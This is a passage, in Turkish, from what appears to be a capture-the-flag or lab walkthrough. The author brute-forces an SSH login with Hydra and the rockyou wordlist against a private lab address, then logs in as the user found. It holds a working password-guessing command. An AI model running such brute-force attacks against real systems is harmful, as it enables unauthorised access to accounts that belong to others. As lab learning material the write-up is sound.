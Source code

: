 SSH brute force için Hydra, Medusa, Ncrack gibi elimizde bol seçenek mevcut.Hydra'da karar kılıyorum.

    hydra -t 32 -l burtieo -P /usr/share/wordlists/rockyou.txt 10.0.2.9 ssh 

Gerçekten uzun(neredeyse 1 saat) bir zaman sonra buluyoruz parolayı
    
![screenshot](screenshots/49.png)

    ssh burtieo@10.0.2.9
    
Diyorum ve şu ekran beni karşılıyor.

![screenshot](screenshots/50.png)

Yayy! :D

Diyecekken sevinmekten vazgeçiyorum.

![screenshot](screenshots/51.png)
